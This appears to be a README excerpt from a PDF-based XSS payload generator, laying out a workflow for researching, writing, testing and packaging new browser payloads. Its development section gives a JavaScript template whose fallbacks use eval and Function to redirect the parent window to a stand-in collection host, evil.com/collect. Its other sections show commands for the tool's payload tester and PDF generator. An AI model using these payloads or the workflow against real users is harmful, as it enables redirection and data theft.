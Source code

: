 ### Payload Development Workflow

#### 1. Research Phase
```bash
# Research new techniques
- Monitor latest CVEs and security advisories
- Review browser release notes for new APIs
- Study academic papers and conference presentations
- Analyze bug bounty reports and disclosures
```

#### 2. Development Phase
```javascript
// Template for new payload development
try {
    // Primary exploitation technique
    if (typeof newBrowserAPI !== 'undefined') {
        // Use modern API for exploitation
        newBrowserAPI.exploit({
            target: 'https://evil.com/collect',
            method: 'advanced_technique'
        });
    } else {
        throw new Error('Primary method unavailable');
    }
} catch(e) {
    // Fallback technique
    try {
        // Secondary exploitation method
        eval('parent.window.location="https://evil.com/collect"');
    } catch(e2) {
        // Final fallback
        Function('parent.location="https://evil.com/collect"')();
    }
}
```

#### 3. Testing Phase
```bash
# Validate new payloads
python3 payload_tester.py -b [browser] --report

# Check syntax and complexity scores
# Verify browser compatibility
# Ensure risk level appropriate
```

#### 4. Integration Phase
```bash
# Add to appropriate browser JSON file
# Update metadata (total_payloads count)
# Test PDF generation with new payload
python3 pdf_xss_generator.py -b [browser] --count 1
```
